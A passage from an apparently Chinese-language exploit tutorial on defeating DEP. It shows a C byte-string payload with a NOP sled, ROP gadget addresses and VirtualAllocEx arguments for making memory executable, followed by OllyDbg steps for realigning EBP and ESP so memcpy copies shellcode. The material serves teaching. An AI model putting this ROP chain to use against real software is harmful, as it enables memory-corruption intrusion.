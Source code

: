 ```c
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\xBA\xD9\xBB\x7C"//address of PUSH ESP POP EBP RETN 4 
    "\xBC\x45\x82\x7C"//address of call VirtualAllocEx
    "\x90\x90\x90\x90"//
    "\xFF\xFF\xFF\xFF"//hProcess = -1 ,-1 stands for current process
    "\x00\x00\x03\x00"//lpAddress = 00030000
    "\xFF\x00\x00\x00"//dwSize= 0xff
    "\x00\x10\x00\x00"//flAllocationType = 0x1000
    "\x40\x00\x00\x00"//flProtect = 0x40,stands for exec_read_write
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7c"//=[0012fed4] address of pop eax ret
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90" // 这个位置是VirtualAlloc 调用后ret 10返回后esp指向的位置，也是pop eax指令赋给eax的内容.
    "\xBA\xD9\xBB\x7C" // EBP之前被破坏，现在调整EBP值（现在为90909090，应当使其为esp或相近值） address of PUSH ESP POP EBP RET 4
    ; 
```

重新编译程序后用 OllyDbg 加载程序，并在 0x7CBBD9BA（调整 EBP 入口）处下断点，然后单步运行到第二次调整完 EBP，然后在返回前暂停，观察内存状态。
如图 12.3.27 所示，修正 EBP 后 ESP 和 EBP 指向同一个位置，而 memcpy 中的源内存地址参数位于 EBP+0x0C，如果我们希望使用 PUSH ESP 的方式设置源内存地址，就需要让 ESP 指向 EBP+0x10，这样执行完 PUSH 操作后 ESP 的值刚好放在 EBP+0x0C。为了达到这个目的有两个问题需要解决：
- ESP 如何指向 EBP+0x10 ?
- PUSH ESP 操作后程序控制权如何回收?

> 说明：这里memcpy函数调用和之前Call virtualAlloc不同，这里设置参数的方式是按下图中的方式传入，即当前EBP+8,EBP+10,EBP+c这3个。

